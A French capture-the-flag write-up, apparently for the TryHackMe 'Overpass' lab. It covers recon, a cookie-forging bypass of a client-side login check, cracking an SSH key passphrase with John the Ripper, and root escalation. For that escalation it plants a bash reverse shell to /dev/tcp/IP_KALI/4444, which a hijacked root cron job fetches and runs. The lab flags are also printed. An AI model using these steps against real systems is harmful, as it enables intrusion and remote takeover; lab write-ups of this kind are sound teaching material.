









## 1. Énumération et Reconnaissance

La première étape consiste à identifier les services actifs sur la machine cible.

```
nmap -sC -sV 10.130.170.193
```



Nous découvrons un serveur web fonctionnant sur le port 80. Une énumération des répertoires permet de trouver des pages intéressantes :

```
gobuster dir -u http://10.130.170.193/ -w /usr/share/wordlists/dirb/common.txt
```



---

## 2. Exploitation : Accès au Dashboard

En accédant à /admin, nous analysons le code JavaScript (login.js) qui gère l'authentification.



```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
**Analyse de la vulnérabilité :** Le script vérifie uniquement si la réponse du serveur est différente de "Incorrect credentials". Il ne valide pas réellement le jeton côté serveur. Il suffit donc de créer un cookie factice nommé SessionToken pour contourner cette vérification.

- **Action :** Via l'inspecteur du navigateur (F12 -> Application -> Cookies), créer un cookie SessionToken avec une valeur arbitraire.
    



Après rafraîchissement, nous accédons au tableau de bord.



---

## 3. Cassage de la clé SSH (Cracking)

L'administrateur a laissé une clé privée RSA protégée par une passphrase.

### Méthode

1. Copier la clé dans un fichier id_rsa et appliquer chmod 600 id_rsa.
    
2. Convertir la clé au format lisible par John the Ripper :
    
    code Bash
    
    ```
    ssh2john id_rsa > hash.txt
    ```
    
3. Lancer le craquage avec une wordlist :
    
    code Bash
    
    ```
    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    ```
    



- **Résultat :** id_rsa:james13
    

---

## 4. Accès Système (User Flag)

Utilisation de la clé SSH pour se connecter en tant qu'utilisateur james.

code Bash

```
ssh -i id_rsa james@10.130.170.193
# Passphrase : james13
```

- **Flag User :** thm{65c1aaf000506e56996822c6281e6bf7}
    

---

## 5. Escalade de Privilèges (Root)

### Analyse

La lecture du crontab système révèle une tâche exécutée chaque minute par root :

code Bash

```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

### Concept : DNS Hijacking (Détournement DNS)

Le **DNS Hijacking** consiste à corrompre la résolution d'un nom de domaine pour rediriger le trafic vers une destination malveillante. Ici, au lieu de laisser la machine contacter le vrai serveur pour télécharger le script, nous forçons **overpass.thm** à pointer vers notre machine Kali.

### Exploitation

1. **Préparation :** Créer le répertoire et le script de reverse shell sur Kali.
    
    code Bash
    
    ```
    mkdir -p downloads/src/
    echo '#!/bin/bash\nbash -i >& /dev/tcp/IP_KALI/4444 0>&1' > downloads/src/buildscript.sh
    ```
    
2. **Serveur :** Lancer un serveur web local.
    
    code Bash
    
    ```
    sudo python3 -m http.server 80
    ```
    
3. **Listener :** Attendre la connexion.
    
    code Bash
    
    ```
    nc -lnvp 4444
    ```
    
4. **Détournement :** Modifier le /etc/hosts de la cible pour pointer overpass.thm vers Kali.
    



Une fois le cron job exécuté :  


Nous obtenons un shell root sur notre listener :  


- **Flag Root :** thm{7f336f8c359dbac18d54fdd64ea753bb}
